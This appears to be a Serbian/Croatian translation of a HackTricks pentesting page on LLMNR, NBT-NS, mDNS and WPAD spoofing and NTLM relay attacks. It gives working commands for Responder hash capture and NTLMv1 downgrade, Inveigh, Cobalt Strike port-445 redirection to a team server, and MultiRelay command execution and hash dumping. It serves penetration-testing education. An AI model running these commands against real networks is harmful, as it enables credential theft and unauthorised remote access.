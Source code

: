 # Lažiranje LLMNR, NBT-NS, mDNS/DNS i WPAD i napadi preusmeravanja

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Mrežni protokoli

### Protokoli lokalne rezolucije domaćina
- **LLMNR, NBT-NS i mDNS**:
- Microsoft i drugi operativni sistemi koriste LLMNR i NBT-NS za lokalnu rezoluciju imena kada DNS ne uspe. Slično tome, Apple i Linux sistemi koriste mDNS.
- Ovi protokoli su podložni presretanju i lažiranju zbog svoje neautentifikovane, emitovane prirode preko UDP-a.
- [Responder](https://github.com/lgandx/Responder) se može koristiti za lažiranje usluga slanjem lažiranih odgovora na upite ovih protokola.
- Dodatne informacije o lažiranju usluga pomoću Responder-a mogu se pronaći [ovde](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Protokol automatskog otkrivanja veb proksija (WPAD)
- WPAD omogućava pregledačima automatsko otkrivanje podešavanja proksija.
- Otkrivanje se olakšava putem DHCP-a, DNS-a ili prelaska na LLMNR i NBT-NS ako DNS ne uspe.
- Responder može automatizovati napade na WPAD, usmeravajući klijente ka zlonamernim WPAD serverima.

### Responder za trovanje protokola
- **Responder** je alat koji se koristi za trovanje LLMNR, NBT-NS i mDNS upita, selektivno odgovarajući na osnovu tipova upita, uglavnom ciljajući SMB usluge.
- Dolazi preinstaliran u Kali Linux-u, konfigurabilan na lokaciji `/etc/responder/Responder.conf`.
- Responder prikazuje uhvaćene hešove na ekranu i čuva ih u direktorijumu `/usr/share/responder/logs`.
- Podržava IPv4 i IPv6.
- Windows verzija Responder-a je dostupna [ovde](https://github.com/lgandx/Responder-Windows).

#### Pokretanje Responder-a
- Za pokretanje Responder-a sa podrazumevanim podešavanjima: `responder -I <Interfejs>`
- Za agresivnije ispitivanje (sa potencijalnim sporednim efektima): `responder -I <Interfejs> -P -r -v`
- Tehnike za hvatanje NTLMv1 izazova/odgovora radi lakšeg pucanja: `responder -I <Interfejs> --lm --disable-ess`
- Lažiranje WPAD-a se može aktivirati sa: `responder -I <Interfejs> --wpad`
- NetBIOS zahtevi mogu biti rešeni na IP napadača, a može se postaviti i proksi za autentifikaciju: `responder.py -I <interfejs> -Pv`

### Trovanje DHCP-om pomoću Responder-a
- Lažiranje DHCP odgovora može trajno otrovati informacije o rutiranju žrtve, nudeći prikriveniju alternativu za trovanje ARP-om.
- Zahteva precizno poznavanje konfiguracije ciljne mreže.
- Pokretanje napada: `./Responder.py -I eth0 -Pdv`
- Ova metoda može efikasno uhvatiti NTLMv1/2 hešove, ali zahteva pažljivo rukovanje kako bi se izbeglo ometanje mreže.

### Hvatanje akreditacija pomoću Responder-a
- Responder će lažirati usluge koristeći gorenavedene protokole, hvatajući akreditacije (obično NTLMv2 Izazov/Odgovor) kada korisnik pokuša da se autentifikuje protiv lažiranih usluga.
- Mogu se preduzeti pokušaji da se smanji na NetNTLMv1 ili onemogući ESS radi lakšeg pucanja akreditacija.

Važno je napomenuti da se ove tehnike trebaju primenjivati legalno i etički, uz obezbeđivanje odgovarajuće autorizacije i izbegavanje ometanja ili neovlašćenog pristupa.

## Inveigh

Inveigh je alat namenjen penetracionim testiranjima i timovima za crveno hakovanje, dizajniran za Windows sisteme. Nudi funkcionalnosti slične Responder-u, izvodeći lažiranje i napade čovek-u-sredini. Alat se razvio iz PowerShell skripte u C# binarni fajl, sa [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) i [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) kao glavnim verzijama. Detaljni parametri i uputstva mogu se pronaći u [**wiki-ju**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh se može koristiti putem PowerShell-a:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Ili izvršeno kao C# binarni fajl:
```bash
Inveigh.exe
```
### NTLM Relay Napad

Ovaj napad koristi SMB autentifikacijske sesije kako bi pristupio ciljnom računalu, pružajući sistemsku ljusku ako je uspješan. Ključni preduvjeti uključuju:
- Autentificirani korisnik mora imati lokalni administratorski pristup na preusmjerenom računalu.
- Potrebno je onemogućiti SMB potpisivanje.

#### Preusmjeravanje i tuneliranje porta 445

U scenarijima gdje direktno umrežavanje nije izvedivo, promet na portu 445 treba biti preusmjeren i tuneliran. Alati poput [**PortBender**](https://github.com/praetorian-inc/PortBender) pomažu u preusmjeravanju prometa na portu 445 na drugi port, što je bitno kada je dostupan lokalni administratorski pristup za učitavanje upravljačkog programa.

Postavljanje i rad PortBendera u Cobalt Strike-u:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Ostali alati za NTLM Relay napad

- **Metasploit**: Podesite sa proxy-jima, lokalnim i udaljenim detaljima hosta.
- **smbrelayx**: Python skripta za preusmeravanje SMB sesija i izvršavanje komandi ili postavljanje zadnjih vrata.
- **MultiRelay**: Alat iz Responder suite-a za preusmeravanje određenih korisnika ili svih korisnika, izvršavanje komandi ili ispisivanje heševa.

Svaki alat se može konfigurisati da radi preko SOCKS proxy-ja ako je potrebno, omogućavajući napade čak i sa indirektnim pristupom mreži.

### Rad MultiRelay-a

MultiRelay se pokreće iz direktorijuma _**/usr/share/responder/tools**_, ciljajući određene IP adrese ili korisnike.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
Ovi alati i tehnike čine sveobuhvatan set za izvođenje NTLM Relay napada u različitim mrežnim okruženjima.

### Prisiljavanje NTLM prijava

U sustavu Windows **možete prisiliti neke privilegirane račune da se autentificiraju na proizvoljnim mašinama**. Pročitajte sljedeću stranicu da biste saznali kako:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Reference
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite vidjeti **vašu kompaniju oglašenu na HackTricks-u** ili **preuzeti HackTricks u PDF formatu** Provjerite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podijelite svoje hakirajuće trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
